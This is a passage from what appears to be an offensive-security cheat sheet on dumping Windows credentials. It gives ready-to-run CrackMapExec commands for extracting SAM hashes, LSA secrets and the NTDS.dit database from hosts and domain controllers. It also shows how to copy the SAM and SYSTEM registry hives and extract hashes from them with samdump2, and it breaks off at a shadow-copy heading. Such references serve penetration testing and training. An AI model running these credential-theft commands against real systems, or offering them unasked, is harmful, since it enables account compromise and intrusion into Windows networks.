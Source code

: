 **You can automate this process with** [**lssasy**](https://github.com/Hackndo/lsassy)**.**

## CrackMapExec

### Dump SAM hashes

```text
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

### Dump LSA secrets

```text
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

### Dump the NTDS.dit from target DC

```text
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

### Dump the NTDS.dit password history from target DC 

```text
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```

### Show the pwdLastSet attribute for each NTDS.dit account

```text
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```

## Stealing SAM & SYSTEM

This files should be **located** in _C:\windows\system32\config\SAM_ and _C:\windows\system32\config\SYSTEM._ But **you cannot just copy them in a regular way** because they protected.

### From Registry

The easiest way to steal those files is to get a copy from the registry:

```text
reg save HKLM\sam sam
reg save HKLM\system system
```

**Download** those files to your Kali machine and **extract the hashes** using:

```text
samdump2 SYSTEM SAM
```

### Volume Shadow Copy

